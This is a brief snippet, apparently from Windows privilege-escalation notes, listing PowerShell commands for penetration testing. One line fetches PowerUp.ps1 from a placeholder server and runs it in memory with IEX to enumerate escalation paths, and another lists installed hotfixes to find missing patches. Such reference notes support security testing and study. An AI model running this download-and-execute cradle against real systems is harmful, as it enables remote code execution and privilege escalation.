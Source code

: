 # Windows - Powershell

```powershell "IEX (New-Object Net.WebClient).DownloadString('<server>/PowerUp.ps1'); Invoke-AllChecks" ```

Run PowerUp on system

```Get-Hotfix KB*******```

Checking missing patches (Powershell)
